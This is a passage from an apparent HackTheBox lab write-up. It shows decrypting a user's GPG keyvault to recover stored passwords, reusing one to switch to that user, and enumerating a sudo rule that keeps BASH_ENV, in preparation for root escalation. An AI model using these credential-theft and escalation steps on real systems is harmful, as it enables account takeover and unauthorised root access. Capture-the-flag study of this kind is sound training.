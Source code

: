 ```bash
❯ unzip gpg-files.zip
Archive:  gpg-files.zip
   creating: private-keys-v1.d/
  inflating: private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key  
  inflating: private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key  
  inflating: trustdb.gpg             
  inflating: pubring.kbx             
   creating: openpgp-revocs.d/
  inflating: openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev  
  inflating: pubring.kbx~            
 extracting: random_seed             
❯ rm gpg-files.zip
```

### Decryption

Decrypt using the gpg files from hish directory:

```bash
❯ gpg --homedir gpg-files --decrypt keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/home/gabri/Desktop/HackTheBox/machines/Environment-10.10.11.67/content/gpg-files'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

It was successfull and it leaks three passwords. As it's supposed to be of hish user, I will try to use the "environment.htb" password as him/her:

```bash
www-data@environment:/home/hish$ su hish
Password: marineSPm@ster!!
bash-5.2$ whoami
hish
```

And it worked!

# Privilege escalation to root

Hish has sudo privileges to execute as any user the command `systeminfo`:

```bash
bash-5.2$ sudo -l
[sudo] password for hish: marineSPm@ster!!
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

As expected, when executed it gives some system information:

```bash
bash-5.2$ sudo /usr/bin/systeminfo 

### Displaying kernel ring buffer logs (dmesg) ###
[    5.626913] Console: switching to colour frame buffer device 160x50
[    5.628774] vmwgfx 0000:00:0f.0: [drm] fb0: vmwgfxdrmfb frame buffer device
[    5.775290] NET: Registered PF_VSOCK protocol family
[    5.956458] auditfilter: audit rule for LSM 'crond_t' is invalid
[    5.956523] auditfilter: audit rule for LSM 'crond_t' is invalid
```